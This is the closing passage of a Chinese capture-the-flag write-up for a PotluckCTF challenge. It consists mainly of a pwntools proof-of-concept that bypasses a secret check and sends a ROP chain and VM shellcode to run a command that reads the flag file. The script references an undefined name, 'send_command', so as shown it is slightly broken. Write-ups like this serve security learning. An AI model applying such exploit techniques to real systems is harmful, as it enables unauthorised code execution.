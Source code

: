 感谢 blasty 带来了这个酷炫的挑战，以及 ZetaTwo 举办的 CTF！

## 九、攻击 Poc 源代码

```plain
from pwn import *

r = remote('challenge27.play.potluckctf.com', 31337)

# Secret challenge
r.recvuntil(b'stew:\n\n')
secret = bytes.fromhex(r.recvline().strip().decode())
code = xor(secret, p32(0xc0cac01a) + p32(0xd15ea5e) + p32(0x5caff01d) + p32(0xba5eba11)).hex().encode()
r.sendline(code)

# Select vulnerable command 2
r.recvuntil(b'choice> ')
r.sendline(b'2')
r.recvline()

# Gadgets
pop_lr_r5_r4_r2_r1_r0 = 0x164
send_command_gadget = 0x5b0
recv_and_print = 0x714
stack_in_kitchen = 0xfdb8
stack_in_gordon = 0xef7c
system_api_chall = 0x4033A2

# Payload
payload = p32(0xc0cac01a) # command magic
# Gordon shellcode
'''
syscall instruction -> handle_syscall(vm) -> system(vm) -> system(&vm->regs[0])
r0/r1/r2 -> "cat /fla* > /tmp/x_master\x00"
'''
payload += b'\x09\x05\x00\x00' # pop r5 -- @system
payload += b'\x07\xd0\x05\x00' # mov R13, R5 -- write to handle_syscall
payload += b'\x09\x00\x00\x00' # pop r0 -- cat /flag...
payload += b'\x09\x01\x00\x00' # pop r1
payload += b'\x09\x02\x00\x00' # pop r2
payload += b'\x09\x03\x00\x00' # pop r3
payload += b'\x05\x07\x00\x00' # syscall 7

assert len(payload) <= 0x40
payload += b'X' * (0x40 - len(payload))
# Kitchen ROP chain
payload += p64(pop_lr_r5_r4_r2_r1_r0)
payload += p64(send_command) # lr
payload += p64(0) # r5
payload += p64(0) # r4
payload += p64(0) # r2
payload += p64(0x100) # r1
payload += p64(stack_in_kitchen) # r0
payload += p64(recv_and_print) # recv + print
payload += b'X' * (0x80 - len(payload))
# Gordon ret2shellcode
payload += p64(stack_in_gordon)
# Gordon shellcode pop
payload += p64(system_api_chall) # @system
payload += b'cat /fla* > /tmp/x_master\x00' # cmd

assert not b"\x0a" in payload
assert not b"\x0d" in payload
```